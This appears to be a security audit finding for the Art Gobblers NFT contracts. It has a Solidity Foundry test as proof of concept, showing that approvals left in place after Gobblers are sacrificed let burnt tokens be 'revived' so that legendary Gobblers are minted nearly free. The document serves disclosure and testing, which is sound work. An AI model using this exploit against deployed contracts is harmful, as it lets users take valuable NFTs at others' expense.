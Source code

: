 Allows users to mint legendary Gobblers for free assuming they have the necessary amount of Gobblers to begin with. This is achieved by "reviving" sacrificed Gobblers after having called `mintLegendaryGobbler`.

### Severity Justification

This vulnerability allows the violation of the fundamental mechanics of in-scope contracts, allowing buyers to purchase legendary Gobblers at almost no cost outside of temporary liquidity requirements which can be reduced via the use of NFT flashloans.

### Proof of Concept

Add the following code to the `ArtGobblersTest` contract in  `test/ArtGobblers.t.sol`  and run the test via `forge test --match-test testCanReuseSacrificedGobblers  -vvv`:

```solidity
function testCanReuseSacrificedGobblers() public {
	address user = users[0];

	// setup legendary mint
	uint256 startTime = block.timestamp + 30 days;
	vm.warp(startTime);
	mintGobblerToAddress(user, gobblers.LEGENDARY_AUCTION_INTERVAL());
	uint256 cost = gobblers.legendaryGobblerPrice();
	assertEq(cost, 69);
	setRandomnessAndReveal(cost, "seed");

	for (uint256 curId = 1; curId <= cost; curId++) {
		ids.push(curId);
		assertEq(gobblers.ownerOf(curId), users[0]);
	}

	// do token approvals for vulnerability exploit
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.approve(user, ids[i]);
	}
	vm.stopPrank();

	// mint legendary
	vm.prank(user);
	uint256 mintedLegendaryId = gobblers.mintLegendaryGobbler(ids);

	// confirm user owns legendary
	assertEq(gobblers.ownerOf(mintedLegendaryId), user);

	// show that contract initially thinks tokens are burnt
	for (uint256 i = 0; i < ids.length; i++) {
		hevm.expectRevert("NOT_MINTED");
		gobblers.ownerOf(ids[i]);
	}

	// "revive" burnt tokens by transferring from zero address with approval
	// which was not reset
	vm.startPrank(user);
	for (uint256 i = 0; i < ids.length; i++) {
		gobblers.transferFrom(address(0), user, ids[i]);
		assertEq(gobblers.ownerOf(ids[i]), user);
	}
	vm.stopPrank();
}
```
